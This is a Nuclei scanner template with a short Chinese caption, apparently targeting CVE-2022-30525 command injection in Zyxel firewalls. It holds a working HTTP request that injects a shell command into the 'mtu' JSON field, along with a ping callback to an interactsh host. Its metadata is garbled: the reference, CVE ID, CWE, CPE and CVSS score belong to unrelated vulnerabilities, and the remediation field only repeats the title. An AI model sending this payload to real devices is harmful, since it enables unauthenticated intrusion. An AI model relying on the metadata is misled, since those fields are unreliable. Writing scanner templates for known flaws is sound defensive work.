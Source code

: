 
zyxel_CVE_2022_30525.yaml：

```yaml
id: CVE-2022-30525

info:
  name: Zyxel 防火墙未经身份验证的远程命令注入
  author: xiaodisec
  severity: high
  description: |
    Zyxel 防火墙未经身份验证的远程命令注入
  remediation: |
    Zyxel 防火墙未经身份验证的远程命令注入
  reference:
    - https://github.com/vulhub/vulhub/blob/master/minio/CVE-2023-28432/README.zh-cn.md
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
    cvss-score: 6.1
    cve-id: CVE-2022-0150
    cwe-id: CWE-79
    epss-score: 0.00133
    epss-percentile: 0.47722
    cpe: cpe:2.3:a:wp_accessibility_helper_project:wp_accessibility_helper:*:*:*:*:*:wordpress:*:*
  tags: cve,Zyxel,cve2022

http:
  - raw:
      - |
        POST /ztp/cgi-bin/handler HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json
        
        {"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"{{xd}}","data":"hi"}

    payloads:
      xd:
        - ";ping -c 3 {{interactsh-url}};"
    
    matchers:
      - type: word
        part: interactsh_protocol
        name: dns
        words:
          - "dns"
```

这里的 {{interactsh-url}} 其实相当于nuclei 内置的 dnslog


